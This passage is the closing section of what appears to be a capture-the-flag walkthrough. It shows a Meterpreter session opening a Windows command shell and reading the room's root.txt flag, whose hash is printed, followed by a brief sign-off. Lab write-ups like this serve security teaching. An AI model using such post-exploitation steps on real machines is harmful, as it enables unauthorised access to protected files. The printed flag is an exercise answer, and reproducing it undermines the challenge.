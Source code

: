 ```bash
meterpreter > shell
Process 516 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>type C:\Windows\System32\config\root.txt
type C:\Windows\System32\config\root.txt
dff0f748678f280250f25a45b8046b4a
```

## Conclusion

That's all for this room! I hope you had fun or at least learned something new.  
Until next time, happy hacking!
